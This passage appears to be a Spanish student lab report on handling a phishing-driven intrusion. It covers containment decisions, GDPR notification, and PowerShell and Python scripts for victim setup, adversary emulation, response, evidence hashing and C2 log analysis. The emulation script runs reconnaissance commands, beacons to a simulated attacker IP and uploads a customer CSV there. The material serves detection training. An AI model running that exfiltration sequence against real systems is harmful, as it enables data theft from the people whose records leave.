- **Administrador de sistemas:** ejecuta la contención (firewall, AD, snapshots).
- **Responsable de protección de datos (DPO):** valora la obligación legal (RGPD/AEPD).
- **Dirección:** prioriza la continuidad del negocio.

### Situación de partida (lo que ya se sabe)
El analista resume: la usuaria `rrhh.ana` picó en un phishing, entregó credenciales en un portal falso y, desde su equipo (PC-RRHH-01), se han ejecutado comandos de reconocimiento y se ha detectado una conexión saliente a la IP `10.10.10.100` con un patrón de *beacon* y un POST con el CSV de clientes. Wazuh ha generado 20 alertas de reconocimiento y 3 de nivel 12.

---

### Circunstancia 1 — Aparece un segundo equipo infectado

**Planteamiento:** mientras se contiene PC-RRHH-01, Wazuh lanza las mismas reglas (100200/100201) en un segundo equipo del departamento.

**Decisión:** elevar la gravedad a **CRÍTICA** y pasar de "incidente aislado" a "posible movimiento lateral". Se aísla también el segundo equipo con `respuesta-aislar.ps1` y se revisa en Wazuh qué cuentas han iniciado sesión en ambos (eventos 4624) para detectar credenciales reutilizadas.

**Justificación:** dos equipos con el mismo patrón indican que el atacante ya se mueve por el dominio; contener solo el primero dejaría la puerta abierta. Aislar antes de investigar a fondo prioriza frenar la propagación (contención > análisis cuando hay expansión activa).

---

### Circunstancia 2 — Hay indicios claros de exfiltración de datos personales

**Planteamiento:** el análisis de `analizar-conexiones.py` confirma un POST con `exfil_clientes.csv` hacia el atacante. Son datos personales de clientes (RGPD).

**Decisión:** el DPO activa el procedimiento de **brecha de datos**. Se documenta qué datos salieron y a quién afectan, y se prepara la **notificación a la AEPD dentro de las 72 h** (art. 33 RGPD) por existir riesgo para los afectados. En paralelo se valora informar a los clientes afectados (art. 34).

**Justificación:** la obligación legal no depende de haber resuelto el incidente técnico; el plazo de 72 h corre desde el conocimiento. Separar la respuesta técnica (sistemas) de la respuesta legal (datos) evita que una retrase a la otra.

---

### Circunstancia 3 — El atacante mantiene acceso persistente

**Planteamiento:** tras aislar el equipo, el forense encuentra una tarea programada sospechosa (persistencia) que relanzaría el *beacon*.

**Decisión:** **no limpiar "a mano" y devolver el equipo a producción.** Se decide **restaurar desde un snapshot limpio anterior al incidente** y, antes de reconectar, **revocar y forzar el cambio de la contraseña de `rrhh.ana` en el Active Directory** (y de cualquier cuenta usada en los equipos afectados). Solo se reconecta a la red tras verificar que no quedan conexiones al C2.

**Justificación:** con persistencia confirmada, una limpieza manual no garantiza erradicar al atacante; restaurar desde snapshot es la vía fiable. Revocar credenciales cierra el vector de reentrada aunque el atacante conserve las contraseñas robadas.

---

### Circunstancia 4 — Dirección presiona para recuperar los servicios ya

**Planteamiento:** dirección exige reactivar los equipos de RR. HH. de inmediato porque se está parando el trabajo (nóminas, contratación).

**Decisión:** el IC mantiene la contención hasta completar erradicación y verificación, pero ofrece una **recuperación por fases**: primero los equipos ya restaurados y verificados, con MFA y macros bloqueadas; los no verificados siguen aislados. Se da a dirección una estimación de tiempos y un canal de actualización cada hora.

**Justificación:** reconectar sin verificar reabriría el incidente y multiplicaría el coste (técnico y legal). La recuperación por fases equilibra la presión de negocio con la seguridad, y comunicar plazos reduce la presión sin ceder en el criterio técnico. Es el principio de **ciberresiliencia**: recuperar de forma controlada, no a cualquier precio.

---

### Cierre de la reunión — acuerdos
1. Gravedad **CRÍTICA**; incidente con movimiento lateral y brecha de datos.
2. Contención: equipos afectados aislados y atacante bloqueado en firewall.
3. Erradicación: restauración desde snapshot + revocación de credenciales en AD.
4. Legal: notificación a la **AEPD en 72 h** y valoración de aviso a clientes.
5. Recuperación **por fases** con MFA y macros bloqueadas.
6. Notificación a **INCIBE-CERT** como apoyo.
7. *Lecciones aprendidas*: reforzar formación antiphishing, aplicar mínimo privilegio y afinar las reglas de Wazuh.

---

## Herramientas utilizadas

| Herramienta | Uso en el trabajo |
|-------------|-------------------|
| VirtualBox | Virtualización de todo el laboratorio |
| Windows Server 2025 / Windows 11 / Ubuntu 26.04 / Kali | Máquinas del escenario |
| Wazuh 4.9.2 | SIEM: indexador, gestor y panel de detección |
| Sysmon + configuración de SwiftOnSecurity | Telemetría detallada del endpoint |
| GoPhish 0.12.1 + MailHog | Campaña de phishing y captura del correo |
| PowerShell | Emulación del ataque (sin malware real) |
| VirusTotal + AbuseIPDB | OSINT de indicadores de compromiso |
| Python 3 | Scripts propios de análisis e investigación |

---

## Anexo A: instalación (comandos reales)

**Wazuh (servidor SRV-SIEM).** Instalación todo-en-uno; previamente se amplió el disco y se ajustó `vm.max_map_count`:

```bash
sudo lvextend -l +100%FREE /dev/ubuntu-vg/ubuntu-lv && sudo resize2fs /dev/ubuntu-vg/ubuntu-lv
sudo sysctl -w vm.max_map_count=262144
curl -sO https://packages.wazuh.com/4.9/wazuh-install.sh
sudo bash ./wazuh-install.sh -a -i -o
```

**Agente de Wazuh + Sysmon (víctima PC-RRHH-01).** Se instala Sysmon con la configuración de SwiftOnSecurity, se registra el agente contra el gestor y se añade el canal de Sysmon a su configuración:

```powershell
msiexec /i wazuh-agent-4.9.2-1.msi WAZUH_MANAGER=10.10.10.20 WAZUH_AGENT_NAME=PC-RRHH-01
Start-Service WazuhSvc
```

**Atacante (Kali).** GoPhish (panel de administración en `https://127.0.0.1:3333` y servidor de phishing en el puerto 80) y MailHog como buzón trampa (SMTP en el 1025 y web en el 8025).

## Anexo B: scripts propios (código completo)

Todos los scripts se han escrito a medida para este trabajo. Las **claves API** se pasan por variables de entorno; no figuran en el código ni se suben al repositorio.

### `deploy-victima.ps1`

*Prepara la víctima: Sysmon + auditoría + agente Wazuh.*

```powershell
<#
=====================================================================
 deploy-victima.ps1
 ---------------------------------------------------------------------
 Proyecto : TP Gestion de un incidente de ciberseguridad (Nexora S.L.)
 Autor    : Luis Fernando Arrosquipa (GitHub: Fer1399)
 Apartado : 2 - Deteccion y auditoria
 Objetivo : Dejar la VM VICTIMA (PC-RRHH-01) preparada para generar
            telemetria de calidad: Sysmon + agente Wazuh + recursos
            compartidos y datos ficticios de clientes.

 USO (PowerShell como Administrador):
    Set-ExecutionPolicy -Scope Process Bypass -Force
    .\deploy-victima.ps1 -WazuhManager 10.10.10.20

 ENTORNO: ejecutar SOLO en la VM de laboratorio aislada (host-only).
          No ejecutar en un equipo real. Datos de clientes = inventados.
=====================================================================
#>

param(
    [string]$WazuhManager = "10.10.10.20",   # IP del SRV-SIEM (Wazuh)
    [string]$WorkDir      = "C:\Lab",         # Carpeta de trabajo del lab
    [string]$ShareName    = "RRHH_Compartido" # Recurso compartido "sensible"
)

$ErrorActionPreference = "Stop"

function Write-Paso($txt) {
    Write-Host "`n[+] $txt" -ForegroundColor Cyan
}
function Write-Ok($txt) {
    Write-Host "    OK  $txt" -ForegroundColor Green
}

# --- 0. Comprobacion de privilegios -----------------------------------
if (-not ([Security.Principal.WindowsPrincipal] `
        [Security.Principal.WindowsIdentity]::GetCurrent()
    ).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)) {
    throw "Este script debe ejecutarse como Administrador."
}

Write-Paso "Creando estructura de carpetas en $WorkDir"
New-Item -ItemType Directory -Force -Path $WorkDir, "$WorkDir\tools", "$WorkDir\logs" | Out-Null
Write-Ok "Carpetas creadas"

# --- 1. Sysmon + configuracion de deteccion ---------------------------
# Sysmon (Sysinternals) registra creacion de procesos, conexiones de red,
# creacion de ficheros y cambios de registro. Es la fuente nº1 de evidencias.
Write-Paso "Descargando e instalando Sysmon"
$sysmonZip = "$WorkDir\tools\Sysmon.zip"
$sysmonDir = "$WorkDir\tools\Sysmon"
try {
    Invoke-WebRequest -Uri "https://download.sysinternals.com/files/Sysmon.zip" `
        -OutFile $sysmonZip -UseBasicParsing
    Expand-Archive -Path $sysmonZip -DestinationPath $sysmonDir -Force
    Write-Ok "Sysmon descargado"
} catch {
    Write-Host "    AVISO: sin internet en la VM. Copia Sysmon manualmente en $sysmonDir" -ForegroundColor Yellow
}

# Config recomendada (base SwiftOnSecurity, estandar en la industria).
Write-Paso "Descargando configuracion de Sysmon (SwiftOnSecurity)"
$sysmonConf = "$WorkDir\tools\sysmonconfig.xml"
try {
    Invoke-WebRequest -Uri "https://raw.githubusercontent.com/SwiftOnSecurity/sysmon-config/master/sysmonconfig-export.xml" `
        -OutFile $sysmonConf -UseBasicParsing
    Write-Ok "Config descargada"
} catch {
    Write-Host "    AVISO: descarga manual la config en $sysmonConf" -ForegroundColor Yellow
}

if (Test-Path "$sysmonDir\Sysmon64.exe") {
    & "$sysmonDir\Sysmon64.exe" -accepteula -i $sysmonConf
    Write-Ok "Sysmon instalado y configurado"
}

# --- 2. Politica de auditoria de Windows ------------------------------
# Activa el registro de inicios de sesion (4624/4625), acceso a objetos
# y creacion de procesos con linea de comandos (4688). Imprescindible
# para el apartado 3 (investigacion).
Write-Paso "Habilitando politica de auditoria avanzada"
auditpol /set /category:"Logon/Logoff"      /success:enable /failure:enable | Out-Null
auditpol /set /category:"Detailed Tracking"  /success:enable /failure:enable | Out-Null
auditpol /set /category:"Object Access"      /success:enable /failure:enable | Out-Null
# Guardar la linea de comandos en el evento 4688
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\Audit" `
    /v ProcessCreationIncludeCmdLine_Enabled /t REG_DWORD /d 1 /f | Out-Null
Write-Ok "Auditoria avanzada activada (4624/4625/4688/acceso a objetos)"

# --- 3. Recurso compartido "sensible" con datos ficticios -------------
# El atacante intentara acceder a esta carpeta en el apartado 3.
Write-Paso "Creando recurso compartido '$ShareName' con datos ficticios"
$sharePath = "$WorkDir\$ShareName"
New-Item -ItemType Directory -Force -Path $sharePath | Out-Null

# CSV de clientes INVENTADOS (ningun dato real).
$clientes = @"
id,nombre,email,telefono,dni_ficticio,saldo
1001,Ana Prueba,ana.prueba@nexora.lab,600000001,00000001X,1240.50
1002,Luis Demo,luis.demo@nexora.lab,600000002,00000002Y,980.00
1003,Marta Test,marta.test@nexora.lab,600000003,00000003Z,3150.75
1004,Juan Ejemplo,juan.ejemplo@nexora.lab,600000004,00000004W,540.20
1005,Sara Ficticia,sara.ficticia@nexora.lab,600000005,00000005V,7820.00
"@
Set-Content -Path "$sharePath\clientes_CONFIDENCIAL.csv" -Value $clientes -Encoding UTF8

if (-not (Get-SmbShare -Name $ShareName -ErrorAction SilentlyContinue)) {
    New-SmbShare -Name $ShareName -Path $sharePath -FullAccess "Everyone" | Out-Null
}
Write-Ok "Compartido creado: \\$env:COMPUTERNAME\$ShareName"

# --- 4. Agente Wazuh --------------------------------------------------
# Envia toda la telemetria (Sysmon, eventos de seguridad) al SIEM central.
Write-Paso "Instalando agente Wazuh apuntando a $WazuhManager"
$wazuhMsi = "$WorkDir\tools\wazuh-agent.msi"
try {
    Invoke-WebRequest -Uri "https://packages.wazuh.com/4.x/windows/wazuh-agent-4.9.0-1.msi" `
        -OutFile $wazuhMsi -UseBasicParsing
    Start-Process msiexec.exe -ArgumentList "/i `"$wazuhMsi`" /q WAZUH_MANAGER=`"$WazuhManager`" WAZUH_AGENT_NAME=`"PC-RRHH-01`"" -Wait
    & "C:\Program Files (x86)\ossec-agent\bin\wazuh-control.exe" start 2>$null
    Write-Ok "Agente Wazuh instalado y arrancado"
} catch {
    Write-Host "    AVISO: instala el MSI de Wazuh manualmente (WAZUH_MANAGER=$WazuhManager)" -ForegroundColor Yellow
}

# --- 5. Recordar a Wazuh que lea el canal de Sysmon -------------------
Write-Paso "Configurando el agente para recoger el canal de Sysmon"
$ossecConf = "C:\Program Files (x86)\ossec-agent\ossec.conf"
if (Test-Path $ossecConf) {
    $bloque = @"
  <localfile>
    <location>Microsoft-Windows-Sysmon/Operational</location>
    <log_format>eventchannel</log_format>
  </localfile>
"@
    (Get-Content $ossecConf -Raw) -replace "</ossec_config>", "$bloque`n</ossec_config>" |
        Set-Content $ossecConf -Encoding UTF8
    & "C:\Program Files (x86)\ossec-agent\bin\wazuh-control.exe" restart 2>$null
    Write-Ok "Canal de Sysmon añadido a ossec.conf"
}

Write-Host "`n=====================================================" -ForegroundColor Magenta
Write-Host " VICTIMA LISTA. Comprueba en el dashboard de Wazuh" -ForegroundColor Magenta
Write-Host " que el agente 'PC-RRHH-01' aparece como Activo." -ForegroundColor Magenta
Write-Host "=====================================================" -ForegroundColor Magenta
```

### `emular-ataque.ps1`

*Emulación del adversario: reconocimiento → acceso → beacon → exfiltración.*

```powershell
<#
=====================================================================
 emular-ataque.ps1
 ---------------------------------------------------------------------
 Emulacion de adversario para el laboratorio Nexora (PC-RRHH-01).
 NO es malware: solo reproduce el COMPORTAMIENTO post-explotacion
 (reconocimiento, acceso a datos, beacon y exfiltracion) usando
 comandos legitimos de Windows, para que Sysmon/Wazuh lo detecten.
 Ejecutar en PC-RRHH-01, PowerShell como Administrador.
 Atacante (C2 simulado): Kali 10.10.10.100
=====================================================================
#>

$C2 = "10.10.10.100"
Write-Host "==== Emulacion de adversario Nexora (lab) ====" -ForegroundColor Cyan

# --- Preparar el "dato sensible" si no existe ---
$dir = "C:\Lab\RRHH_Compartido"
if (-not (Test-Path $dir)) { New-Item -ItemType Directory -Force -Path $dir | Out-Null }
$csv = "$dir\clientes_CONFIDENCIAL.csv"
if (-not (Test-Path $csv)) {
@"
id,nombre,email,dni_ficticio,saldo
1001,Ana Prueba,ana.prueba@nexora.lab,00000001X,1240.50
1002,Luis Demo,luis.demo@nexora.lab,00000002Y,980.00
1003,Marta Test,marta.test@nexora.lab,00000003Z,3150.75
"@ | Set-Content $csv -Encoding UTF8
}

# --- Fase 1: Reconocimiento (Discovery) ---
Write-Host "`n[*] Fase 1: Reconocimiento" -ForegroundColor Yellow
cmd /c "whoami"
cmd /c "net user"
cmd /c "net group ""Domain Admins"" /domain" 2>$null
cmd /c "net share"
cmd /c "systeminfo" | Out-Null
cmd /c "ipconfig /all" | Out-Null

# --- Fase 2: Acceso a datos sensibles (Collection) ---
Write-Host "`n[*] Fase 2: Acceso a la carpeta de clientes" -ForegroundColor Yellow
Get-Content $csv

# --- Fase 3: Beacon a la IP del atacante (C2) ---
Write-Host "`n[*] Fase 3: Beacon periodico a $C2" -ForegroundColor Yellow
1..5 | ForEach-Object {
    try { Invoke-WebRequest "http://$C2:8000/beacon?id=$_" -UseBasicParsing -TimeoutSec 2 | Out-Null } catch {}
    Start-Sleep -Seconds 2
}

# --- Fase 4: Exfiltracion del CSV (Exfiltration) ---
Write-Host "`n[*] Fase 4: Exfiltracion del CSV de clientes a $C2" -ForegroundColor Yellow
try {
    Invoke-WebRequest "http://$C2:8000/exfil_clientes.csv" -Method POST -InFile $csv -UseBasicParsing -TimeoutSec 3 | Out-Null
} catch {}

Write-Host "`n[+] Emulacion completada. Revisa las alertas en Wazuh." -ForegroundColor Green
```

### `respuesta-aislar.ps1`

*Respuesta: evidencia volátil → bloqueo → aislamiento → sellado SHA-256.*

```powershell
<#
    respuesta-aislar.ps1
    Script de respuesta y contencion de un incidente (Nexora S.L. - laboratorio)
    Autor: Luis Fernando Arrosquipa

    Objetivo: ante la deteccion de la intrusion en PC-RRHH-01, ejecutar de forma
    ordenada y trazable los primeros pasos de respuesta:
      1. Recoger evidencia volatil ANTES de tocar nada (orden de volatilidad).
      2. Bloquear la comunicacion con el atacante (regla de firewall).
      3. Aislar el equipo de la red (deshabilitar adaptadores).
      4. Sellar toda la evidencia con SHA-256 para la cadena de custodia.

    Uso (PowerShell como Administrador en el equipo comprometido):
      .\respuesta-aislar.ps1 -IPAtacante 10.10.10.100

    Nota: entorno de laboratorio autorizado. El aislamiento corta la red del equipo;
    ejecutar desde consola local, no por sesion remota.
#>

param(
    [string]$IPAtacante = "10.10.10.100",
    [string]$CarpetaEvidencias = "C:\Evidencias_Incidente"
)

$ErrorActionPreference = "Continue"
$sello = Get-Date -Format "yyyyMMdd_HHmmss"
$dir   = Join-Path $CarpetaEvidencias $sello
New-Item -ItemType Directory -Path $dir -Force | Out-Null

function Log($txt) {
    $linea = "[{0}] {1}" -f (Get-Date -Format "HH:mm:ss"), $txt
    Write-Host $linea
    Add-Content -Path (Join-Path $dir "respuesta.log") -Value $linea
}

Log "=== INICIO DE LA RESPUESTA AL INCIDENTE ==="
Log "Equipo: $env:COMPUTERNAME  |  Usuario: $env:USERNAME"
Log "IP del atacante a bloquear: $IPAtacante"
Log "Carpeta de evidencias: $dir"

# ------------------------------------------------------------------
# PASO 1 - EVIDENCIA VOLATIL (se recoge primero: se pierde al apagar/aislar)
# ------------------------------------------------------------------
Log "--- PASO 1: recogida de evidencia volatil ---"

# Conexiones de red activas (clave para ver el C2 / exfiltracion)
Get-NetTCPConnection -ErrorAction SilentlyContinue |
    Select-Object State,LocalAddress,LocalPort,RemoteAddress,RemotePort,OwningProcess |
    Sort-Object RemoteAddress |
    Export-Csv -NoTypeInformation -Path (Join-Path $dir "conexiones.csv")
Log "Conexiones de red guardadas (conexiones.csv)"

# Resaltar cualquier conexion con el atacante
$malas = Get-NetTCPConnection -ErrorAction SilentlyContinue |
         Where-Object { $_.RemoteAddress -eq $IPAtacante }
if ($malas) {
    $malas | Out-File (Join-Path $dir "conexiones_atacante.txt")
    Log ("[!] Detectadas {0} conexiones hacia {1}" -f $malas.Count, $IPAtacante)
} else {
    Log "No hay conexiones activas hacia el atacante en este instante"
}

# Procesos en ejecucion (con ruta del ejecutable)
Get-Process | Select-Object Id,ProcessName,Path,StartTime |
    Export-Csv -NoTypeInformation -Path (Join-Path $dir "procesos.csv")
Log "Procesos en ejecucion guardados (procesos.csv)"

# Usuarios con sesion iniciada
quser 2>$null | Out-File (Join-Path $dir "sesiones.txt")

# Tareas programadas (posible persistencia)
Get-ScheduledTask | Select-Object TaskName,State,TaskPath |
    Export-Csv -NoTypeInformation -Path (Join-Path $dir "tareas_programadas.csv")
Log "Tareas programadas guardadas (persistencia)"

# Cache ARP y tabla de rutas (contexto de red)
arp -a   | Out-File (Join-Path $dir "arp.txt")
route print | Out-File (Join-Path $dir "rutas.txt")

# ------------------------------------------------------------------
# PASO 2 - BLOQUEO DE LA COMUNICACION CON EL ATACANTE
# ------------------------------------------------------------------
Log "--- PASO 2: bloqueo del atacante en el firewall ---"
New-NetFirewallRule -DisplayName "IR-BLOQUEO-ATACANTE-SALIDA" -Direction Outbound `
    -RemoteAddress $IPAtacante -Action Block -Profile Any -ErrorAction SilentlyContinue | Out-Null
New-NetFirewallRule -DisplayName "IR-BLOQUEO-ATACANTE-ENTRADA" -Direction Inbound `
    -RemoteAddress $IPAtacante -Action Block -Profile Any -ErrorAction SilentlyContinue | Out-Null
Log "Reglas de firewall creadas para bloquear $IPAtacante (entrada y salida)"

# ------------------------------------------------------------------
# PASO 3 - AISLAMIENTO DEL EQUIPO
# ------------------------------------------------------------------
Log "--- PASO 3: aislamiento de red del equipo ---"
$adaptadores = Get-NetAdapter | Where-Object { $_.Status -eq "Up" }
foreach ($a in $adaptadores) {
    Log ("Deshabilitando adaptador: {0}" -f $a.Name)
    Disable-NetAdapter -Name $a.Name -Confirm:$false -ErrorAction SilentlyContinue
}
Log "Equipo aislado de la red. La evidencia ya esta recogida en local."

# ------------------------------------------------------------------
# PASO 4 - SELLADO DE LA EVIDENCIA (SHA-256) PARA LA CADENA DE CUSTODIA
# ------------------------------------------------------------------
Log "--- PASO 4: sellado de evidencia con SHA-256 ---"
$hashes = Get-ChildItem -Path $dir -File | ForEach-Object {
    $h = Get-FileHash $_.FullName -Algorithm SHA256
    "{0}  {1}" -f $h.Hash, $_.Name
}
$hashes | Out-File (Join-Path $dir "SHA256SUMS.txt")
Log "Evidencia sellada. Hashes en SHA256SUMS.txt"

Log "=== RESPUESTA COMPLETADA ==="
Log "Siguiente paso manual: revocar credenciales de rrhh.ana en el AD,"
Log "restaurar PC-RRHH-01 desde snapshot limpio y notificar segun el plan (AEPD/CERT)."
Write-Host ""
Write-Host "Evidencia y log en: $dir" -ForegroundColor Green
```

### `generar-iocs.py`

*Calcula los hashes SHA-256 de las evidencias y genera la tabla de IOCs.*

```python
#!/usr/bin/env python3
"""
generar-iocs.py  -  Calculo de hashes e inventario de IOCs/evidencias
--------------------------------------------------------------------
Proyecto: TP Gestion de incidente - Nexora S.L.  (Fer1399)
Apartado 3: Investigacion y analisis  /  Preservacion de integridad.

Recorre una carpeta de evidencias, calcula MD5 y SHA-256 de cada
fichero y genera:
  - iocs.csv        (tabla de indicadores de compromiso)
  - iocs.md         (mismo listado en Markdown para la memoria)

El SHA-256 es la "huella" que garantiza la INTEGRIDAD de la evidencia
(funcion hash del apartado 1) y el que se consulta en VirusTotal.

USO:
    python3 generar-iocs.py /ruta/a/evidencias
    python3 generar-iocs.py .            (carpeta actual)
"""
import sys, os, hashlib, csv, datetime


def hashes_de(ruta: str):
    md5 = hashlib.md5()
    sha = hashlib.sha256()
    with open(ruta, "rb") as f:
        for bloque in iter(lambda: f.read(65536), b""):
            md5.update(bloque)
            sha.update(bloque)
    return md5.hexdigest(), sha.hexdigest()


def main():
    carpeta = sys.argv[1] if len(sys.argv) > 1 else "."
    if not os.path.isdir(carpeta):
        print(f"[!] No existe la carpeta: {carpeta}"); sys.exit(1)

    filas = []
    for raiz, _, ficheros in os.walk(carpeta):
        for nombre in ficheros:
            if nombre in ("iocs.csv", "iocs.md"):
                continue
            ruta = os.path.join(raiz, nombre)
            try:
                md5, sha = hashes_de(ruta)
                filas.append({
                    "fichero": os.path.relpath(ruta, carpeta),
                    "tamano_bytes": os.path.getsize(ruta),
                    "md5": md5,
                    "sha256": sha,
                })
            except Exception as e:
                print(f"[!] Error con {ruta}: {e}")

    if not filas:
        print("[!] No se encontraron ficheros."); sys.exit(0)

    # CSV
    with open("iocs.csv", "w", newline="", encoding="utf-8") as f:
        w = csv.DictWriter(f, fieldnames=["fichero", "tamano_bytes", "md5", "sha256"])
        w.writeheader(); w.writerows(filas)

    # Markdown
    fecha = datetime.datetime.now().strftime("%Y-%m-%d %H:%M:%S")
    with open("iocs.md", "w", encoding="utf-8") as f:
        f.write(f"# Tabla de IOCs / evidencias\nGenerado: {fecha}\n\n")
        f.write("| Fichero | Tamano (bytes) | SHA-256 |\n|---|---|---|\n")
        for r in filas:
            f.write(f"| {r['fichero']} | {r['tamano_bytes']} | `{r['sha256']}` |\n")

    print(f"[+] {len(filas)} evidencias procesadas.")
    print("[+] Generados: iocs.csv  e  iocs.md")
    for r in filas:
        print(f"    {r['fichero']:30}  SHA256={r['sha256']}")


if __name__ == "__main__":
    main()
```

### `cadena-custodia.py`

*Registra y verifica evidencias por su hash (cadena de custodia).*

```python
#!/usr/bin/env python3
"""
cadena-custodia.py  -  Registro de cadena de custodia de evidencias
--------------------------------------------------------------------
Proyecto: TP Gestion de incidente - Nexora S.L.  (Fer1399)
Apartado 3: Investigacion y analisis  /  Cadena de custodia.

Registra cada evidencia con su SHA-256, tamano, fecha/hora y la
persona que la recoge, y lo anade a un libro de custodia (JSON + MD).
Permite demostrar que la evidencia NO se ha alterado: se puede
re-verificar el hash en cualquier momento.

USO:
    # Registrar una evidencia:
    python3 cadena-custodia.py add correo_phishing.eml --quien "L.F. Arrosquipa" --desc "Correo de phishing capturado en MailHog"

    # Verificar que una evidencia registrada no ha cambiado:
    python3 cadena-custodia.py verify correo_phishing.eml

    # Listar el libro de custodia:
    python3 cadena-custodia.py list
"""
import sys, os, hashlib, json, datetime

LIBRO = "cadena-custodia.json"


def sha256(ruta):
    h = hashlib.sha256()
    with open(ruta, "rb") as f:
        for b in iter(lambda: f.read(65536), b""):
            h.update(b)
    return h.hexdigest()


def cargar():
    if os.path.exists(LIBRO):
        return json.load(open(LIBRO, encoding="utf-8"))
    return []


def guardar(reg):
    json.dump(reg, open(LIBRO, "w", encoding="utf-8"), indent=2, ensure_ascii=False)
    # Exportar tambien a Markdown
    with open("cadena-custodia.md", "w", encoding="utf-8") as f:
        f.write("# Cadena de custodia de evidencias\n\n")
        f.write("| # | Evidencia | SHA-256 | Tamano | Recogida por | Fecha/hora | Descripcion |\n")
        f.write("|---|---|---|---|---|---|---|\n")
        for i, e in enumerate(reg, 1):
            f.write(f"| {i} | {e['fichero']} | `{e['sha256']}` | {e['tamano']} | "
                    f"{e['recogida_por']} | {e['fecha']} | {e['descripcion']} |\n")


def main():
    if len(sys.argv) < 2:
        print(__doc__); sys.exit(1)
    accion = sys.argv[1]
    reg = cargar()

    if accion == "add":
        ruta = sys.argv[2]
        quien = "desconocido"; desc = ""
        if "--quien" in sys.argv: quien = sys.argv[sys.argv.index("--quien") + 1]
        if "--desc" in sys.argv:  desc = sys.argv[sys.argv.index("--desc") + 1]
        e = {
            "fichero": os.path.basename(ruta),
            "ruta": os.path.abspath(ruta),
            "sha256": sha256(ruta),
            "tamano": os.path.getsize(ruta),
            "recogida_por": quien,
            "fecha": datetime.datetime.now().isoformat(timespec="seconds"),
            "descripcion": desc,
        }
        reg.append(e); guardar(reg)
        print(f"[+] Evidencia registrada: {e['fichero']}")
        print(f"    SHA-256: {e['sha256']}")

    elif accion == "verify":
        ruta = sys.argv[2]
        nombre = os.path.basename(ruta)
        actual = sha256(ruta)
        for e in reg:
            if e["fichero"] == nombre:
                ok = e["sha256"] == actual
                print(f"[{'OK' if ok else '!!'}] {nombre}")
                print(f"    Registrado: {e['sha256']}")
                print(f"    Actual:     {actual}")
                print("    => INTEGRIDAD INTACTA" if ok else "    => EVIDENCIA ALTERADA")
                return
        print(f"[!] {nombre} no esta en el libro de custodia.")

    elif accion == "list":
        if not reg:
            print("[*] Libro de custodia vacio."); return
        for i, e in enumerate(reg, 1):
            print(f"{i}. {e['fichero']}  ({e['fecha']}, {e['recogida_por']})")
            print(f"   SHA-256: {e['sha256']}")
    else:
        print(__doc__)


if __name__ == "__main__":
    main()
```

### `analizar-conexiones.py`

*Analiza el log del C2 y clasifica beacon y exfiltración.*

```python
#!/usr/bin/env python3
"""
analizar-conexiones.py  -  Analisis de conexiones sospechosas
--------------------------------------------------------------------
Proyecto: TP Gestion de incidente - Nexora S.L.  (Fer1399)
Apartado 3: Investigacion y analisis.

Lee un log de acceso (por ejemplo la salida del servidor del atacante
`python3 -m http.server`, o un volcado de conexiones) y resalta las
peticiones relacionadas con el incidente: beacon periodico y
exfiltracion hacia la IP del atacante.

USO:
    # Guarda primero la salida del C2 en un fichero, p.ej.:
    #   python3 -m http.server 8000 2>&1 | tee c2.log
    python3 analizar-conexiones.py c2.log
    python3 analizar-conexiones.py c2.log --atacante 10.10.10.100
"""
import sys, re
from collections import Counter

IP_ATACANTE = "10.10.10.100"


def main():
    if len(sys.argv) < 2:
        print(__doc__); sys.exit(1)
    log = sys.argv[1]
    if "--atacante" in sys.argv:
        global IP_ATACANTE
        IP_ATACANTE = sys.argv[sys.argv.index("--atacante") + 1]

    try:
        lineas = open(log, encoding="utf-8", errors="ignore").read().splitlines()
    except FileNotFoundError:
        print(f"[!] No existe el fichero: {log}"); sys.exit(1)

    # Formato tipico de http.server:
    # 10.10.10.50 - - [14/Nov/2026 23:37:32] "GET /beacon?id=1 HTTP/1.1" 200 -
    patron = re.compile(r'(\d+\.\d+\.\d+\.\d+).*?"(\w+)\s+(\S+)\s+HTTP')

    beacons, exfil, origenes = [], [], Counter()
    for ln in lineas:
        m = patron.search(ln)
        if not m:
            continue
        ip, metodo, ruta = m.groups()
        origenes[ip] += 1
        if "beacon" in ruta.lower():
            beacons.append((ip, metodo, ruta))
        if "exfil" in ruta.lower() or metodo.upper() == "POST":
            exfil.append((ip, metodo, ruta))

    print(f"[*] Analizando {log}  (IP atacante: {IP_ATACANTE})\n")
    print("=== Origenes de las conexiones ===")
    for ip, n in origenes.most_common():
        marca = "  <-- VICTIMA" if ip != IP_ATACANTE else ""
        print(f"  {ip:16} {n} peticiones{marca}")

    print(f"\n=== Beacon / C2 (posible comunicacion con el atacante) ===")
    if beacons:
        for ip, met, ruta in beacons:
            print(f"  [BEACON] {ip} -> {met} {ruta}")
        print(f"  Total beacons detectados: {len(beacons)}  (patron periodico = C2)")
    else:
        print("  (ninguno)")

    print(f"\n=== Posible exfiltracion de datos ===")
    if exfil:
        for ip, met, ruta in exfil:
            print(f"  [EXFIL] {ip} -> {met} {ruta}")
    else:
        print("  (ninguna)")

    print("\n[+] Conclusion:")
    if beacons or exfil:
        print(f"    La victima estableció {len(beacons)} conexiones de beacon y "
              f"{len(exfil)} de exfiltracion hacia {IP_ATACANTE}.")
        print("    Indicadores compatibles con C2 (T1071) y exfiltracion (T1048).")
    else:
        print("    No se detectaron conexiones sospechosas en el log.")


if __name__ == "__main__":
    main()
```

### `osint-lookup.py`

*Reputación OSINT de IP, dominio o hash (VirusTotal + AbuseIPDB).*

```python
#!/usr/bin/env python3
"""
osint-lookup.py  -  Investigacion OSINT de IOCs (IP / dominio / hash)
--------------------------------------------------------------------
Proyecto: TP Gestion de incidente - Nexora S.L.  (Fer1399)
Apartado 3: Investigacion y analisis.

Consulta la reputacion de una IP, dominio o hash en VirusTotal y
AbuseIPDB. Util para investigar la "IP externa del atacante" y el
hash SHA-256 que Sysmon capturo del binario ejecutado.

USO:
    python3 osint-lookup.py 10.10.10.100
    python3 osint-lookup.py A220A85750588F5B231FF8CB106BA5409EAABB85E3DD7278A98FCA907E171ED2
    python3 osint-lookup.py dominio-malicioso.com

Claves API (gratuitas): ponlas como variables de entorno o aqui abajo.
    export VT_API_KEY="tu_clave_virustotal"
    export ABUSEIPDB_API_KEY="tu_clave_abuseipdb"
"""
import sys, os, re, json
import urllib.request, urllib.error

VT_API_KEY = os.getenv("VT_API_KEY", "PON_AQUI_TU_CLAVE_VIRUSTOTAL")
ABUSEIPDB_API_KEY = os.getenv("ABUSEIPDB_API_KEY", "PON_AQUI_TU_CLAVE_ABUSEIPDB")


def tipo_ioc(valor: str) -> str:
    if re.fullmatch(r"\d{1,3}(\.\d{1,3}){3}", valor):
        return "ip"
